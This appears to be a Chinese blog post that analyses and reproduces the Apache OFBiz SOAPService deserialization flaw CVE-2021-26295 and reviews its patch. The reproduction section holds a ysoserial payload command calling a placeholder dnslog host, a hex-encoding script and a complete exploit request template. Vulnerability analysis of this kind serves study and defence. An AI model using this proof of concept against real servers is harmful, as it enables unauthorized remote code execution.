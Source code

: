 ## 0x00 前言

之前分析过Ofbiz的CVE-2020-9496了，现在继续看看另一个洞即CVE-2021-26295。

## 0x01 SOAP简介

SOAP（Simple Object Access Protocol）简单对象访问协议是交换数据的一种协议规范，是一种轻量的、简单的、基于XML（标准通用标记语言下的一个子集）的协议，它被设计成在WEB上交换结构化的和固化的信息。SOAP不是Web Service的专有协议。

SOAP使用HTTP来发送XML格式的数据，可以简单理解为：`SOAP = HTTP +XML`

SOAP结构如图：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/1.png)

包括以下元素：

- 必需的 Envelope 元素，可把此 XML 文档标识为一条 SOAP 消息
- 可选的 Header 元素，包含头部信息
- 必需的 Body 元素，包含所有的调用和响应信息
- 可选的 Fault 元素，提供有关在处理此消息所发生错误的信息

## 0x02 漏洞原理

在17.12.06之前版本的Ofbiz中，其中的未授权访问SOAP服务接口`/webtools/control/SOAPService`存在反序列化漏洞，攻击者可通过该接口实现RCE。

## 0x03 影响版本

< 17.12.06

## 0x04 环境搭建

参考Vulhub：[https://vulhub.org/#/environments/ofbiz/CVE-2020-9496/](https://web.archive.org/web/20221208223756/https://vulhub.org/#/environments/ofbiz/CVE-2020-9496/)

## 0x05 漏洞复现

使用ysoserial生成payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://xxx.dnslog.cn" > poc.txt
```

str2hex.py，用于将生成的序列化内容转换为Hex格式内容：

```
#coding=utf8
import binascii

with open('poc.txt', 'rb') as payload_handle:
   content = payload_handle.read()
str_hex = binascii.hexlify(content)
print(str_hex)
```

用SOAP型报文的形式POST过去：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Content-Length: 1015
Accept: */*
Content-Type: application/xml
Origin: chrome-extension://ieoejemkppmjcdfbnfphhpbfmallhfnc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Header/>
<soapenv:Body>
<ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <cus-obj>hex格式的序列化内容</cus-obj>
            </map-Key>
            <map-Value>
                <std-String value="test"/>
            </map-Value>
        </map-Entry>
    </map-HashMap>
</ser>
</soapenv:Body>
</soapenv:Envelope>
```

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/2.png)

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/3.png)

## 0x06 漏洞分析

本次漏洞接口`/webtools/control/SOAPService`和上次的xmlrpc漏洞接口是同一出处，都是在webtools应用目录中，这里就只看看它们的差异。

先看看它的配置文件`framework/webtools/webapp/webtools/WEB-INF/controller.xml`，对于该接口也是没有设置权限校验：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/4.png)

前面的流程和之前的类似，简单地说就是路由调用栈为`ControlServlet.doPost()->ControlServlet.doGet()->RequestHandler.doRequest()->RequestHandler.runEvent()->EventHandler.invoke()`，此处就根据不同接口获取到不用的EventHandler实现类对象来调用不同处理方法，这里SOAP接口的EventHandler实现类为SOAPEventHandler，即调用其invoke()函数，而其中会获取请求的SOAP数据内容并调用SoapSerializer.deserialize()函数对序列化的数据内容进行反序列化操作：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/5.png)

看到SoapSerializer类deserialize()函数中，就是调用的调用XmlSerializer.deserialize()函数进行反序列化，其中如果识别到`cus-obj`标签则调用UtilObject.getObject()函数进行处理：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/6.png)

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/7.png)

往下跟UtilObject.getObject()函数，调用了SafeObjectInputStream类的readObject()函数进行反序列化操作：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/8.png)

看到SafeObjectInputStream类，其中是设置了反序列化类名的白名单机制，只允许白名单内的类进行反序列化：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/9.png)

但是由于该白名单设置得太泛（`java.`），导致仍能被RMI payload攻击利用。

## 0x07 补丁分析

官方更新：[https://github.com/apache/ofbiz-framework/commit/af9ed4e/](https://web.archive.org/web/20221208223756/https://github.com/apache/ofbiz-framework/commit/af9ed4e/)

就是过滤了RMI payload：

![img](https://web.archive.org/web/20221208223756im_/http://www.mi1k7ea.com/2021/11/27/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-26295%EF%BC%89/10.png)

## 0x08 参考

[CVE-2021-26295 Apache OFBiz 反序列化分析](https://web.archive.org/web/20221208223756/https://www.anquanke.com/post/id/237953)